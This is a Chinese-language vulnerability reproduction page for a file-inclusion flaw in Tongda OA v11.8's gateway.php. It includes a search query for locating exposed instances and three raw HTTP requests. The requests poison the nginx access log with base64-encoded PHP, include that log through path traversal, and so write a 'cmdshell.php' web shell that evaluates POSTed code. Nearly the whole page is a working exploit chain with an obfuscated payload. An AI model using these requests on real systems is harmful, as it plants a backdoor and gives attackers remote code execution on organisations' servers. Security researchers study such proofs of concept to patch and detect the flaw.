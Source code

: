 # 通达OA v11.8 getway.php 远程文件包含漏洞

## 漏洞描述

通达OA v11.8 getway.php 存在文件包含漏洞，攻击者通过发送恶意请求包含日志文件导致任意文件写入漏洞

## 漏洞影响

<a-checkbox checked>通达OA v11.8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628303888717-4ffc91a6-e87e-4e00-8bd5-b2218bb0772a-20220313173009245.png)

发送恶意请求让日志被记录

```php
GET /d1a4278d?json={}&aa=<?php @fputs(fopen(base64_decode('Y21kc2hlbGwucGhw'),w),base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydjbWRzaGVsbCddKTs/Pg=='));?> HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628304243872-a7ae1965-2e21-4551-9d92-b42a3468617b.png)

在通过漏洞包含日志文件

```php
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628304347438-754f2570-1b25-4e9e-b822-ec78c2ca944a.png)

再次发送恶意请求写入文件

```php
POST /mac/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628304579748-4614da68-4756-43a6-b7c1-dc6e9e034819.png)

访问写入的文件 `/mac/cmdshell.php`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628304836865-aee81900-a2a1-402c-9915-77a3d908e480.png)
